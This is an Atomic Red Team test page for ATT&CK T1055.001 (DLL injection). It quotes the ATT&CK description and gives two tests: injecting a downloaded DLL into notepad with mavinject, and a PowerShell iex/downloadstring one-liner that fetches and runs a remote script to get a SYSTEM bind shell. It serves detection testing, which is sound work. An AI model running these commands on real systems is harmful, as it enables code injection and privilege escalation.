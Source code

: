 # T1055.001 - Process Injection: Dynamic-link Library Injection

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/001)

<blockquote>Adversaries may inject dynamic-link libraries (DLLs) into processes in order to evade process-based defenses as well as possibly elevate privileges. DLL injection is a method of executing arbitrary code in the address space of a separate live process.

DLL injection is commonly performed by writing the path to a DLL in the virtual address space of the target process before loading the DLL by invoking a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> (which calls the <code>LoadLibrary</code> API responsible for loading the DLL). (Citation: Elastic Process Injection July 2017)

Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue as well as the additional APIs to invoke execution (since these methods load and execute the files in memory by manually preforming the function of <code>LoadLibrary</code>).(Citation: Elastic HuntingNMemory June 2017)(Citation: Elastic Process Injection July 2017)

Another variation of this method, often referred to as Module Stomping/Overloading or DLL Hollowing, may be leveraged to conceal injected code within a process. This method involves loading a legitimate DLL into a remote process then manually overwriting the module's <code>AddressOfEntryPoint</code> before starting a new thread in the target process.(Citation: Module Stomping for Shellcode Injection) This variation allows attackers to hide malicious injected code by potentially backing its execution with a legitimate DLL file on disk.(Citation: Hiding Malicious Code with Module Stomping)

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via DLL injection may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via mavinject.exe](#atomic-test-1---process-injection-via-mavinjectexe)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique](#atomic-test-2---winpwn---get-system-shell---bind-system-shell-using-usoclient-dll-load-technique)

<br/>

## Atomic Test #1 - Process Injection via mavinject.exe

Windows 10 Utility To Inject DLLS.

Upon successful execution, powershell.exe will download T1055.dll to disk. Powershell will then spawn mavinject.exe to perform process injection in T1055.dll.
With default arguments, expect to see a MessageBox, with notepad's icon in taskbar.

**Supported Platforms:** Windows

**auto_generated_guid:** 74496461-11a1-4982-b439-4d87a550d254

#### Inputs:

| Name        | Description            | Type   | Default Value                                                       |
| ----------- | ---------------------- | ------ | ------------------------------------------------------------------- |
| process_id  | PID of input_arguments | string | (Start-Process notepad -PassThru).id                                |
| dll_payload | DLL to Inject          | path   | PathToAtomicsFolder&#92;T1055.001&#92;src&#92;x64&#92;T1055.001.dll |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING "#{dll_payload}"
Stop-Process -processname notepad
```

#### Dependencies: Run with `powershell`!

##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique

Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 8b56f787-73d9-4f1d-87e8-d07e89cbc7f5

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/UsoDLL/Get-UsoClientDLLSystem.ps1')
```

<br/>
